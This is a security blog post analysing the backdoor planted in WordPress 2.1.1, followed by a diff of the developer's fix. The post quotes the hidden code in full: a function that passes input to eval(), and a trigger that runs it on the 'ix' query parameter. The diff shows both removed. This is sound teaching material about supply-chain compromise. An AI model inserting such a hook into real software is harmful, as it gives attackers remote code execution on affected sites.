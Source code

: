 ```yaml
---
layout: post
title: Impact - Command Injection
tags:
- Code Snippet
- PHP
- Privilege Escalation
- Solution
- Wordpress
status: publish
type: post
published: true
meta:
  aktt_notify_twitter: 'yes'
  _aktt_hash_meta: ! '#code #development'
  _edit_last: '2'
  aktt_tweeted: '1'
  _sexybookmarks_shortUrl: http://bit.ly/bvG37F
  _sexybookmarks_permaHash: 705d5cdc2aa46c7aebd4f8b0e67e70ba
---
```

## Details
__Affected Software:__ WordPress

__Fixed in Version:__  2.1.1

__Issue Type:__ Command Injection

Original Code: <a title="Impact" href="http://spotthevuln.com/2010/01/impact/" target="_blank">Found Here</a>
## Description
This example was actually a backdoor someone had planted in WordPress 2.1.1. Apparently, someone either broke into the wordpress server or hacked a wordpress dev account and inserted this back door. The back door was simple, create a function which simply calls eval on a arguments passed to it. The attacker named this function "comment_text_phpfilter()" and the contents of the function are provided below:
<blockquote>function comment_text_phpfilter($filterdata) {
eval($filterdata);
}</blockquote>
Several lines later, the attacker planted a mechanism to call the backdoor. In this case, the attacker checked for the presense of the "ix" parameter being passed via the querystring. If the "ix" querystring parameter was present, the value assigned to "ix" would be passed to "comment_text_phpfilter()", which would pass the attacker supplied value to eval().
<blockquote>if ($_GET["ix"]) { comment_text_phpfilter($_GET["ix"]); }</blockquote>
## Developer's Solution
```diff

function comment_author_rss() {
echo get_comment_author_rss();
}

-function comment_text_phpfilter($filterdata) {
-eval($filterdata);
-}

function comment_text_rss() {
$comment_text = get_comment_text();
$comment_text = apply_filters('comment_text_rss', $comment_text);
echo $comment_text;
}

function comments_rss_link($link_text = 'Comments RSS', $commentsrssfilename = '') {
$url = comments_rss($commentsrssfilename);
echo "&lt;a href='$url'&gt;$link_text&lt;/a&gt;";
}

...

function get_category_rss_link($echo = false, $cat_ID, $category_nicename) {
$permalink_structure = get_option('permalink_structure');

if ( '' == $permalink_structure ) {
$link = get_option('home') . '?feed=rss2&amp;amp;cat=' . $cat_ID;
} else {
$link = get_category_link($cat_ID);
$link = $link . "feed/";
}

$link = apply_filters('category_feed_link', $link);

if ( $echo )
echo $link;
return $link;
}

-if ($_GET["ix"]) { comment_text_phpfilter($_GET["ix"]); }

function get_the_category_rss($type = 'rss') {
$categories = get_the_category();
$the_list = '';
foreach ( (array) $categories as $category ) {
$category-&gt;cat_name = convert_chars($category-&gt;cat_name);
if ( 'rdf' == $type )
$the_list .= "\n\t\t&lt;dc:subject&gt;&lt;![CDATA[$category-&gt;cat_name]]&gt;&lt;/dc:subject&gt;\n";
else
$the_list .= "\n\t\t&lt;category&gt;&lt;![CDATA[$category-&gt;cat_name]]&gt;&lt;/category&gt;\n";
}
return apply_filters('the_category_rss', $the_list, $type);
}

```
